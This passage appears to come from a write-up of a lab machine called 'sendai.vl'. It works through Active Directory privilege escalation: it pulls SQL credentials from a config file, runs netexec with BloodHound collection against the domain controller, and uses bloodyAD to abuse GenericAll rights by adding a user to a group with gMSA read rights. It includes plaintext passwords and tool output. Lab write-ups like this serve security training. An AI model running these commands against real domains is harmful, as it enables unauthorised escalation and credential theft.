 ```bash
cat .sqlconfig                                    
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;    

```

we get credentials
But this service isn’t exposed to us so moving on to enumerating the domain with bloodhound

```bash
netexec ldap 10.10.91.145 -u 'sqlsvc' -p 'SurenessBlob85' --bloodhound --dns-server 10.10.91.145 -c ALL --dns-tcp
```

### Output
```output
LDAP        10.10.91.145    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
LDAP        10.10.91.145    389    DC               [+] sendai.vl\sqlsvc:SurenessBlob85 
LDAP        10.10.91.145    389    DC               Resolved collection methods: trusts, dcom, rdp, session, psremote, acl, container, localadmin, group, objectprops
LDAP        10.10.91.145    389    DC               Done in 00M 07S
LDAP        10.10.91.145    389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.10.91.145_2025-09-25_111943_bloodhound.zip
                            
```

lets copy this current directory
```bash
cp /home/kali/.nxc/logs/DC_10.10.91.145_2025-09-25_111943_bloodhound.zip .
```

Thomas.Powell is a member of `Support` group has `GenericAll` on `ADMSVC` group which has `ReadGMSAPassword` on `MGTSVC$` account. We'll need to add thomas in ADMSVC group, read the NThash of MGTSVC account

![[Pasted image 20250925163111.png]]


## Abusing GenericAll and reading GMSA password

Through `bloodyAD` we can add thomas in ADMSVC group having generic all rights
```bash
python3 bloodyAD.py --host 10.10.91.145 -d sendai.vl -u thomas.powell -p '$mav1234' add groupMember ADMSVC thomas.powell
```

## Output
```output
thomas.powell added to ADMSVC

```

## Step 2:Reading the GMSA Password for MGTSVC$
After confirming Thomas.Powell’s membership in the ADMSVC group, I assessed whether the gMSA credential for the `MGTSVC$` account could be retrieved; I used multiple enumeration tools to validate findings and captured all outputs for documentation in the engagement report.
